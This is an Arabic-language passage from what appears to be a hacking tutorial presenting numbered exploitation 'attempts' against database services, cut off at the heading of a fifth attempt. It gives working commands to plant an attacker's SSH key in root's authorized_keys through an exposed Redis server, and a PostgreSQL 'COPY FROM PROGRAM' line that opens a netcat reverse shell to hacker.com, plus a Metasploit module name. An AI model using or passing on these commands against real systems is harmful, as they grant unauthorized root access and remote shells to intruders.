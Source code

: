
# 🧪 المحاولة #3: Redis CLI + SSH Keys Writing

### ⚙️ الفكرة:
Redis يعمل عادةً كمستخدم root، ويمكن كتابة ملف SSH في `/root/.ssh/authorized_keys`.

### 💥 الاستغلال:
```bash
redis-cli -h target.com

CONFIG SET dir /root/.ssh/
CONFIG SET dbfilename authorized_keys
SET mykey "\n\nssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEArV1..."
SAVE
```

ثم الاتصال عبر SSH:
```bash
ssh -i id_rsa root@target.com
```

### 📌 النتيجة:
- Shell كامل كمستخدم root.
- لا يتطلب كلمة مرور.

---

# 🧪 المحاولة #4: PostgreSQL + Reverse Shell

### ⚙️ الفكرة:
PostgreSQL يمكن استخدام `COPY` أو `pg_read_file()` للكتابة على القرص، واستغلال ذلك لرفع shell.

### 💥 الاستغلال:
```sql
CREATE TABLE cmd(cmd text);
COPY cmd FROM PROGRAM 'nc -e /bin/bash hacker.com 4444';
SELECT * FROM cmd;
```

أو باستخدام Metasploit:
```
use exploit/linux/postgres/postgres_payload
```

### 📌 النتيجة:
- تنفيذ Reverse Shell.
- اكتساب Shell داخلي.

---

# 🧪 المحاولة #5: LDAP Injection + Command Injection
